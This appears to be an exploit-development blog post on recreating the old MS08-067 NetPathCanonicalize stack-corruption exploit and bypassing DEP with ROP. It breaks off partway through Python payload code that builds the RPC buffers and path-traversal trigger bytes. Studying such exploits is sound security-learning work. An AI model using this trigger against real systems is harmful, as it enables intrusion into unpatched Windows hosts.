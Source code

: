 ```yaml
---
layout: page 
title : Rop Aventures 
categories : [security, Exploit Development]
---
```


In this post we will dive into and old **MSRPC** Vulnerabilty specifically **NetPathCanonicalize**.  

## Understanding the bug

The vulnerabilty is a stack corruption bug, in short the main objective is to remove '\..\' form a path, and do so its using a recursive call, the problem happends when the '\..\' forces the recution to go beyond the last element of the path.  

You can find the full bug analysis [decompiling-ms08-067](http://www.phreedom.org/blog/2008/decompiling-ms08-067/)

## Its old bug...

Yes, theirs lots of information and seemd a good exercise, as the main objective was to recreate the exploit and later try to build the x64 bit version of it, i decided to change things a bit and attempt to use a diferent method to bypass **DEP** most of the exploits i seen around for **Windows 2k3 sp2** use the **NtSetInformationProcess** this brings some limitations among them the fact that will fail if **AlwaysOn** policy mode is **on** it will fail, check out [corelan](https://www.corelan.be/index.php/2010/06/16/exploit-writing-tutorial-part-10-chaining-dep-with-rop-the-rubikstm-cube/), for the full explanation.  
 Changing things helps one to practice and since **ROP** is usualy described as some kind of black magic, better way to understand it is to practice as much as you can.  


## Trigger the Bug

The tools of the trade are the usual, **Immunity debugger** and **mona**, if you don't know what does are you'r probably trying to run before your know how to walk..... you definity need to learn how to walk first!  

The main dependency is **python impacket** we will use this one to connect to the service and send our poisoned present :D, another detail you might have seen is the cryptic look of the paylod of most exploits that look like the following.  


{% highlight python %}
	
	# unknown ref ID
	ref_id = '\x01\x00\x00\x00'		  # Reference ID
	# Server name must be a unic string
	server_name =  '\x10\x00\x00\x00' # Server UNC - MAx Buffer Count
	server_name += '\x00\x00\x00\x00' # Offset
	server_name += '\x10\x00\x00\x00' # Server UNC - Actual Buffer Count
	server_name += '\x50\x50' * 15	  # Server UNC - Buffer Content
	server_name += '\x00\x00' * 1	  # Server UNC - Trailing Null bytes
	# RPC PATH PathName
	path_name =  '\x2f\x00\x00\x00'	  # RPC Path - Max Buffer Count
	path_name += '\x00\x00\x00\x00'	  # Offset
	path_name += '\x2f\x00\x00\x00'	  # RPC Path - Actual Buffer Count
	# Trigger 
	path_name += '\x5c\x00\x45\x00\x5c\x00\x2e\x00'
	path_name += '\x2e\x00\x5c\x00\x2e\x00\x2e\x00'